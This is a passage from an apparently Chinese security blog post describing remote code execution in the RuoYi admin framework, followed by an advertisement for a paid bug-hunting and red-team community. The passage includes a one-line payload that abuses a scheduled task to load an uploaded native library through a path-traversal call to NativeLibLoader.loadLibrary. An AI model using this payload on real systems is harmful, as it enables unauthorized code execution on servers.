 可以修改指定文件名  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWPba70icVbicQQUY31ctJXI9xxkPHlf7uPlZSTvdf8P1WSqvkTZF75ltdbAhH8GZBsld5F23O3zYtg/640?wx_fmt=png&from=appmsg "")  
  
  
启动任务  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWPba70icVbicQQUY31ctJXI92hsHW0tEEcYv8mvsjGPOQ4ssO0xAccic5iaKhp8ebV0oICxI5Qul9gTA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWPba70icVbicQQUY31ctJXI96hvLBbcBK8FM1icSicsnSjEnlUmdnw1ujEe2R4DgxqOJrctbdVBPenRg/640?wx_fmt=png&from=appmsg "")  
  
  
文件名修改成功  
  
  
尝试rce  
  
```
com.sun.glass.utils.NativeLibLoader.loadLibrary('../../../../../../../../../../../Users/Aecous/tmp/upload/2025/04/25/com.ruoyi.quartz.task_20250425182743A001');
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWPba70icVbicQQUY31ctJXI9T5v9djfSbzvfgVEuuwqKZBFqmtgUmMtorT1Jxstic7D0CTNqm2HYPow/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWPba70icVbicQQUY31ctJXI97XD7fzibqRtaK877jrVq8PNGLvOftJnFRbnWDibFgqNmeVCoZGznRxHw/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x5 内部圈子详情介绍**  
  
我们是  
神农安全  
，点赞 + 在看  
 铁铁们点起来，最后祝大家都能心想事成、发大财、行大运。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mngWTkJEOYJDOsevNTXW8ERI6DU2dZSH3Wd1AqGpw29ibCuYsmdMhUraS4MsYwyjuoB8eIFIicvoVuazwCV79t8A/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MVPvEL7Qg0F0PmZricIVE4aZnhtO9Ap086iau0Y0jfCXicYKq3CCX9qSib3Xlb2CWzYLOn4icaWruKmYMvqSgk1I0Aw/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**内部圈子介绍**  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MVPvEL7Qg0F0PmZricIVE4aZnhtO9Ap08Z60FsVfKEBeQVmcSg1YS1uop1o9V1uibicy1tXCD6tMvzTjeGt34qr3g/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
**圈子专注于更新src/红蓝攻防相关：**  
  
```
1、维护更新src专项漏洞知识库，包含原理、挖掘技巧、实战案例
2、知识星球专属微信“小圈子交流群”
3、微信小群一起挖洞
4、内部团队专属EDUSRC证书站漏洞报告
5、分享src优质视频课程（企业src/EDUSRC/红蓝队攻防）
6、分享src挖掘技巧tips
7、不定期有众测、渗透测试项目（一起挣钱）
8、不定期有工作招聘内推（工作/护网内推）
9、送全国职业技能大赛环境+WP解析（比赛拿奖）
```  
  